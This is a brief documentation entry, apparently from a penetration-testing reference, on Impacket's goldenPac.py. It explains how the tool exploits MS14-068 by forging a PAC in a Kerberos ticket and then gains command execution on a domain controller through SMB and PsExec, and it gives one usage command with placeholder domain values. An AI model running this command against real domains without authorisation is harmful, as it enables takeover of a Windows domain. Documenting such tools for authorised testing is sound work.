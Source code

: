 GoldenPac.py
******************

GoldenPac.py is used to exploit MS14-068. Once a TGT containing a forged PAC has been created it is used to create an SMB connection to the domain controller and the PsExec technique is used to gain command execution

.. code-block:: console

   python3 /opt/impacket/build/scripts-3.9/goldenPac.py -dc-ip domainIP -target-ip domainIP DOMAIN.NAME/DOMAINUSER@DOMAIN.NAME.LOCAL
